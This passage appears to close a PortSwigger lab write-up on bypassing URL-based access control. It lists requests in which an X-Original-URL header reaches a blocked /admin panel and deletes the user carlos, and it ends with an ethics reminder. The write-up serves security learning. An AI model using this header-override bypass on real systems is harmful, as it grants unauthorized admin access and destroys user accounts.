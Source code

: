 * Direct `GET /admin` → blocked (plain response).  
* `GET /` + `X-Original-URL: /admin` → admin panel loaded.  
* `GET /?username=carlos` + `X-Original-URL: /admin/delete` → user deleted.  
* Lab completed successfully.

---

> **Legal & ethical reminder:** This writeup documents testing performed in a controlled PortSwigger lab environment. Do not apply these techniques to real systems without explicit authorization.
